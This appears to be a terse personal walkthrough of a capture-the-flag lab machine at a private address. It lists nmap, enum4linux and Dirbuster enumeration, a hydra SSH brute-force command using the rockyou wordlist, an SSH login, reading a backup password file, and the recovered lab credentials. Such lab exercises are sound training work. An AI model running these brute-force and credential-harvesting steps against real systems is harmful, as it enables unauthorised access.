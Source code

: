 #### Machine IP: 10.10.135.87
<br>
Enum:

`nmap -sV -sC -oA nmap/bpt 10.10.135.87`
<br>
<br>

Open ports:
    <br>`hydra -l jan -P ~/Documents/wordlists/rockyou.txt ssh://10.10.135.87`<br><br>
    Ssh 22 -> Atacking[ brute forcing with hydra - User: jan:armando ]<br>
    80<br>
    139<br>
    445<br>

Dirbuster enum:<br>
    `http://10.10.135.87/development/`<br><br>


```
Loggin with ssh: ssh jan@ipmachine -p 22 : armando
Cd ..
Ls
Cd kay
vi pass.bak
```
<br>
<br>
For creds use:<br>

`enum4linux -v 10.10.135.87`
<br><br>

User creds:<br>
    jan:armando<br>
    key:heresareallystrongpasswordthatfollowsthepasswordpolicy$$



